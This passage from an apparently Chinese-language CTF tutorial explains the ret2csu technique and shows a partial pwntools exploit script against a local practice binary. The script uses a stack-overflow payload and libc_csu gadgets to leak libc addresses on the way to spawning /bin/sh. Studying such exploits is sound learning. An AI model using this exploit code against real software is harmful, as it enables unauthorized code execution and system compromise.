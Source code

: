   

- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

  ![第三次发送payload](img/stack/ret2csu3.JPG)

脚本：

```
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *

p = process('./ret2csu')
e = ELF('./ret2csu')
context.log_level = 'debug'

gatget1_addr = 0x000000000040061A
gatget2_addr = 0x0000000000400600
main_got_addr = e.symbols['main']
write_got_addr = e.got['write']
read_got_addr = e.got['read']
bss_addr = e.bss()

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
	payload = 'A'*136
	payload += p64(gatget1_addr)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload += p64(gatget2_addr)
	payload += 'A'*56
	payload += p64(main_addr)
	p.send(payload)
	sleep(1)
	
#第一次发送payload，获取write函数的真实地址
p.recvuntil('Hello, World\n')
csu(0,1,write_got_addr,8,write_got_addr,1,main_got_addr)      
write_rel_addr = u64(p.recv(8))
print hex(write_rel_addr)
libc = LibcSearcher('write',write_rel_addr)
libc_base = write_rel_addr-libc.dump('write')
system_addr = libc_base+libc.dump('execve')                    #从system更换成execve

#第二次发送payload，将system函数地址和字符串/bin/sh写入bss段
p.recvuntil('Hello, World\n')
```